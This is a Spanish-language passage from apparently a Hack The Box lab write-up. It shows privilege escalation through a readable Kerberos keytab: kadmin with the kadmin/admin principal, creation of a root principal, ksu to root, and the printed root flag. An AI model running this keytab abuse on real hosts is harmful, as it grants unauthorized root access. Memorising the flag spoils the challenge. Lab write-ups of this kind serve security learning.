 Si busco por TGTs almacenados en la caché en principio no encuentra ninguno

```null
[admin@srv01 /]$ klist
klist: Credentials cache 'KCM:1011' not found
```

Pero si especifico el archivo .keytab al que tengo acceso puedo ver algunos principals

```null
[admin@srv01 /]$ klist -k /etc/krb5.keytab
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
```

Con kadmin, me autentico al KDC y obtengo una sesión interactiva y utilizando el principal de kadmin

```null
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin: 
```

Como estoy autenticado, puedo crear un principal para el usuario root y setearle una contraseña, la que quiera

```null
kadmin:  add_principal root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
```

Una vez creado cierro la sesión y me autentico como root por kerberos

```null
[admin@srv01 /]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
```

Y puedo visualizar la flag

```null
[root@srv01 /]# cat /root/root.txt
f974380b776a91dbce5b1b07f70697e8
```